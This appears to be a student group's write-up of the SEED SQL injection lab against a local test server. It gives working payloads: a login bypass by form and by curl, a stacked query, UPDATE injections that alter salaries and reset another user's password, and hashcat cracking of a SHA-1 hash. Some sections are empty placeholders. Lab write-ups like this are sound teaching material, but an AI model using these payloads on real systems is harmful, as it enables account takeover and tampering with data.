 # Starting
Change the file /etc/hosts using the following command:
```bash
sudo gedit /etc/hosts
# change the line corresponding to SQL Injection lab to the following
# 10.9.0.5 www.seed-server.com
```

# Lab Tasks

## 3.1 Get Familiar with SQL Statements
1. Open a new terminal
1. dcbuild
2. dcup

![picture 1](images/cbe3ea4ebcd3390f8f8d7a5809bb07b3205b7416667ff591a742c1dceaa2588a.png)  

4. Num novo terminal:
   
![picture 2](images/db22df14db1bcea98484ba16b3a6838629c8af7c93973d36f1db131aaeaabcf1.png)  

![picture 4](images/94c528a3b3831509050d1826041f93206ddd1f6e51fcffddf9391e3d2a8c4c78.png)  

## 3.2 SQL Injection Attack on SELECT Statement

### Task 3.2.1: Attack from the webpage

```php
meter cópia do código do unsafe.php
```

We can explore a vulnerability in the php query to login as adminstrator into the page:

![picture 5](images/2d3b618bdef3acba4475bbf51f7ab252268c0f5c33bc13722706b89c3d771ef3.png)  

After clicking login with the input above in the username, we get into the admin page, containing all the user details:

![picture 7](images/a0c71c08514529594b8b2bf464219b22c26ed0ace58d80204bb5d30ba87e2368.png)  

This is possible since the single-quote is not escaped, allowing us to inject a SQL query into the php code. The ' terminates the input string, and the # is used to comment out everything after the username.

### Task 3.2.2: Attack from the CLI

We use the following curl command to forge a HTTP request to the server and perform a login from the command-line: 
```bash
curl www.seed-server.com/unsafe_home.php?username=admin%27%23&Password=
# %27 is the url encoding for ' and %23 for #
```
#### Result

As we can see, we get the same result as in the previous task, with the admin page being displayed in it's HTML format.

![picture 10](images/e15033b7036c2dc7d1130591e4f0fb739b8aaba532c38187c50067d0bf85febd.png)  

# Task 3.2.3: Append a new SQL statement. 

We tried using the following command on the username part of the login page:
```sql
Admin';Select * FROM credential;#
```

![picture 12](images/880817ceeb591cf8b867991e447779d790618f6320504a7edf6754b4d3562ac9.png) 

This is not allowed since the code in unsafe_home.php used for authentication utilizes the query() from the php API, that only allows a single query. To be able to use several queries within the same function call, we can use for multiquery().

# 3.3

## Task 3.3.1: Modify your own salary

### Insert code snippet here ### 
```php
```

Since we have acess to the tables in the sql server, we have access to Alice information and we know that her password in the DB is stored as 'fdbe918bdae83000aa54747fc95fe0470fff4976'.
Analysing the php code for login, we know that the encryption algorithm used was SHA-1, and since her password was really simple, we can use a tool like hashcat to crack it and obtain her 'real' password 'seedalice'.

![picture 14](images/94b675034d8ddbcd21073e4ccc1374512ba0fa99c4e14dfdafbea0e8315db9c6.png)  

Inside the Edit Profile Page, we input into for example the NickName field the following code:
```sql
', Salary = '99999999', Name = 'Ali$$e' WHERE Eid = '10000'#
```
![picture 15](images/44eaa8f75628f5ffe15f6965d9e31c51e84ef2a5d668b7ee2ae54e6ac276bf65.png)  

And as a result, we managed to update the table **credential**: 
![picture 16](images/a764b5e3c1ccec20fba1d618a2c6d76399f00a393ef9408a0d0da01ab67bb1c2.png)  

![picture 18](images/8a760d1fc327bc16c68426ebacab51a038a4a58011611d080e23e453e67c9e39.png) 

## Task 3.3.2: Modify other people’ salary. 

Using a similar approach, we can in a simillar inside Edit Profile Page, we input into for example the NickName field the following code:
```sql
', Salary = '1', NickName = 'Poor Boby' WHERE Eid = '20000'#
```

![picture 19](images/62441c13c9ad5b77c495d4a1f25956248412f813ed27f0daeedb8458bddb0939.png)  

# Task 3.3.3: Modify other people’ password.

We chosen '1234' as the new password for the boss Boby, and after analysing the code, we know that the password will never be encrypted before being inserted to the DB, so we need to convert it already to it's encrypted version using SHA-1, and then insert it into the DB. (result = 7110eda4d09e062aa5e4a390b0a572ac0d2c0220).

Similarly to 3.1 and 3.2, we can use the following code to update the table **credential**.
```sql
', Password = '7110eda4d09e062aa5e4a390b0a572ac0d2c0220' WHERE Eid = '20000'#
```

Now, the new password for boby is officialy '1234' and we can login into the account using it.

![picture 21](images/e54d16eb1d29a6e8d4d8937ae3fa9eb32e3b28bee6fe10c5eb0c467e2420e465.png)  

# Group 7, 06/11/2022
 
* Afonso Jorge Farroco Martins, up202005900@fe.up.pt
* Eduardo Filipe Leite da Silva, up202005283@fe.up.pt
* José Diogo Pinto, up202003529@fe.up.pt


